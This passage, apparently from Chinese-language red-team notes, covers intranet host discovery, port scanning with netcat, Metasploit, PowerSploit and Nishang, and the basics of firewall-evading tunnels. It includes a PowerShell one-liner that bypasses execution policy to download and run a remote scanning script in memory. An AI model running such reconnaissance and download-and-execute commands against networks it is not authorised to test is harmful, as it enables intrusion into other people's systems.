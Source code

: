 ### 1.9.2. 利用ICMP协议探测 
```ssh
for /L %I in (1,1,254) do @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="
```

### 1.9.3. 利用ARP协议探测 `arp.exe -t 192.168.1.0/24`
* Empire>usemodule powershell/situational_awareness/network/arpscan
* Powershell
    * `powershell.exe -exec bypass -command "& {import-module C:\windows\temp\Invoke-ARPScan.ps1; Invoke-ARPScan -CIDR 192.168.1.0/24}" >> C:\windows\temp\log.txt`

### 1.9.4. 通过TCP/UDP协议探测 `nmap -sT -sU `

## 1.10. 扫描域内端口

### 1.10.1. netcat扫描
```ssh
nc -nvv -w 1 -z 10.1.1.1 3388-27017      //TCP  
nc -nvv -w 1 -z -u 10.1.1.1 3388-3389   //UDP
```
### 1.10.2. 利用telnet命令扫描 `telnet <ip> <port>`
### 1.10.3. 利用msfconsole  `use auxiliary/scanner/portscan/tcp`
### 1.10.4. 利用powersploit `Invoke-Portscan`
```ssh
powershell.exe -nop -exec bypass -c "IEX(New-object Net.webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1'); Invoke-Portscan -Hosts 192.168.1.0/24 -T 4 -ports '445,1433,8080,3389,80' -oA C:windows\temp
es.txt "
```
### 1.10.5. 利用Nishang `Invoke-Portscan`
```ssh
Invoke-Portscan -StartAddress 192.168.1.1 -EndAddress 192.168.1.255 -ResolveHost
```

# 2. 隐藏通信隧道技术
## 2.1. 基础知识
### 2.1.1. 隧道-一种绕过端口屏蔽的通信方式
>攻击机发出的数据包封装成防火墙允许的数据包格式，经过防火墙允许的端口，从而穿过防火墙，与目标机进行通信。

* **网络层** ：IPv6，ICMP，GRE
* **传输层**：TCP，UDP，常规端口转发
* **应用层**：SSH，HTTP，HTTPS，DNS

### 2.1.2. 内网连通性判断
>判断域内及其能否上外网
>
>内网中是否有proxy server
>    1. 查看内网hostname=\*proxy*
>`curl www.baidu.com //不同`
> `curl -x proxy-ip:port  www.baidu.com   //通`
